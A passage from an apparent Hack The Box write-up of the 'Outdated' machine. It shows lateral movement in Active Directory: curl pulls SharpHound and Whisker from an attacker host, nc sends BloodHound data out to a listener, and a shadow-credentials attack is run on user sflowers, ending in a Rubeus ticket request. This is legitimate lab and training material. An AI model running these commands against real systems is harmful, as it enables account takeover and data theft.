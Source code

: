 With this information we can see that the script worked, but the payload delivery (of nc64.exe) didn't. 


### Step 4
Quickly look through the box as user `btables` and we see that `user.txt` is not here, maybe we need to move laterally to `sflowers` that we found earlier.

Upload ``SharpHound.exe`` to the target and start enumerating with BloodHound.
```bash
C:\Windows\Tasks>curl http://10.10.14.2:8888/SharpHound.exe -o C:\Windows\Tasks\SharpHound.exe
C:\Windows\Tasks>dir
08/19/2022  11:17 AM    <DIR>          .
08/19/2022  11:17 AM    <DIR>          ..
08/19/2022  11:17 AM           908,288 SharpHound.exe

## Start listener to receive
➜  outdated nc -lp 1234 > SharpOut.zip

## Send data
C:\Windows\Tasks>nc.exe -w3 10.10.14.2 1234 < 20220819112306_SharpOut.zip
```

In BloodHound, mark user `btables` as Owned and search for `Administrator`. Press `Shortest Path to Here from Owned` and we see a nice path:
![[/assets/images/htb-writeup-outdated/outdated02.png]]


Searching for AddKeyCredentialLink, we find [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) and the tool [Whisker.exe](https://github.com/eladshamir/Whisker) for exploitation.
This technique allows an attacker to take over an AD user or computer account if the attacker can modify the target object's (user or computer account) attribute `msDS-KeyCredentialLink` and append it with alternate credentials in the form of certificates.

Add the shadow credentials (modify the `msDS-KeyCredentialLink` attribute) to the vulnerable AD user `sflowers` using [Whisker.exe](https://github.com/eladshamir/Whisker). 
```bash
C:\Windows\Tasks>curl http://10.10.14.2:8888/Whisker.exe -o C:\Windows\Tasks\Whisker.exe
c:\Windows\Tasks>Whisker.exe add /target:sflowers
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password qUOOiC6IHD1YbErH
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 1b1d7ce3-46ae-4631-9ace-8e962ccdc9ba
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJsA...qoCAgfQ /password:"qUOOiC6IHD1YbErH" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```
